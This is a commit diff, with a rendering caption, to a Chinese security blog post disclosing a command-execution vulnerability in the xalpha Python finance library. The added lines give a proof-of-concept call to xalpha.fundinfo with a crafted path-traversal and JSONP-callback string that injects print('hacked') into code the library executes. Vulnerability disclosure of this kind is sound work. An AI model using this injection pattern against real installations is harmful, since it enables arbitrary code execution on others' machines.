

Before and after one commit to Leeyangee/leeyangee.github.io, a Jekyll site: the page built from _posts/2023-07-09-CVE实战 巧挖国产金融类python api库漏洞-高危命令执行0day.md, in a window 1280 px wide. Shown: the whole page, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2023-07-09-CVE实战 巧挖国产金融类python api库漏洞-高危命令执行0day.md

````diff
--- a/_posts/2023-07-09-CVE实战 巧挖国产金融类python api库漏洞-高危命令执行0day.md
+++ b/_posts/2023-07-09-CVE实战 巧挖国产金融类python api库漏洞-高危命令执行0day.md
@@ -4,12 +4,19 @@ published: true
 ---
 # [](#header-1)0、前言
 这次是挖的比较顺利的一次，整个过程非常的舒服，写个博客记录一下
-这个1.8k的中等体量的国产开源项目犯了一些低级错误，让我在构造整个漏洞利用链的过程中，没有遇到全部从0开始的绝路
+这个1.8k的大体量的国产开源项目犯了部分错误，让我在构造整个漏洞利用链的过程中还是比较舒服的，就算遇到无法绕过的死路，也不至于推翻之前的构造链全部重新来过
 当然，这次挖掘在代码绕过方面也走了一点弯路，浪费了不少时间，吸取一下教训
 
 复现：
 至少需要装python3
-xalpha库可以从github上下载，但最好用pip3直接就能把库拉到本地
+xalpha==0.11.4库可以从github上下载，但最好用pip3直接就能把库拉到本地
+环境配置完毕后，执行以下代码
+```python
+import xalpha
+xalpha.fundinfo("../gaoduan/PinzhongRightApi.aspx?fc=AF5097&callback=jQuery183037745026472073073_ Data_netWorthTrend = print('hacked'); &_=1688890155531#")
+```
+就可以看到代码:print('hacked')成功被执行
+
 
 由于这两天事情多，没时间写博客，恐怕只能先看github issue了
 https://github.com/refraction-ray/xalpha/issues/175
````
